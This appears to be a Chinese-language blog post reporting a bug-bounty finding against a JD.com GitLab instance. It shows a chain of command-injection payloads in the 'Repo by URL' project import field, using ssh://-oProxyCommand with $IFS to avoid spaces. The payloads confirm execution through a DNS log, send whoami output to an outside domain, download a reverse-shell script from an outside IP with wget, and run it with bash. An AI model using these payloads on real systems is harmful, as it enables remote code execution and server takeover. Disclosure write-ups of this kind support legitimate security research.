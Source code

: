 ```yaml
---
layout: post
title:  "jd众测gitlab远程命令执行"
---
```

# jd众测gitlab远程命令执行


http://monitor-fb.jd.com/users/sign_in 首先注册一个账号ahtest
![图片1](https://white-cell.github.io/img/_post/5/图片 1.jpg)<br />
然后创建一个项目，创建方式选择Repo by URL
![图片2](https://white-cell.github.io/img/_post/5/图片 2.jpg)<br />
这里由于gitlab本身的漏洞可以使用ssh://,这里可以绕过执行命令
poc: ssh://-oProxyCommand=要执行的命令/a
注意这里不能出现空格还有部分特殊字符，下面为fuzz最终绕过poc
ssh://-oProxyCommand=ping$IFS’jd.1.rs12.ga’/a
![图片3](https://white-cell.github.io/img/_post/5/图片 3.jpg)<br />
![图片4](https://white-cell.github.io/img/_post/5/图片 4.jpg)<br />
查看我的dnslog，成功收到dns解析请求日志
![图片5](https://white-cell.github.io/img/_post/5/图片 5.jpg)<br />
成功执行命令
查看是否为root的poc：ssh://-oProxyCommand=wget$IFS$9$(whoami).1.rs12.ga/a
讲远程站点的index.html内容换成wget下载反弹shell的脚本
ssh://-oProxyCommand=wget$IFS$945.78.54.37$IFS-O1.sh/a 
![图片6](https://white-cell.github.io/img/_post/5/图片 6.jpg)<br />
ssh://-oProxyCommand=bash$IFS'1.sh'/a 反弹回shell
![图片7](https://white-cell.github.io/img/_post/5/图片 7.jpg)<br />
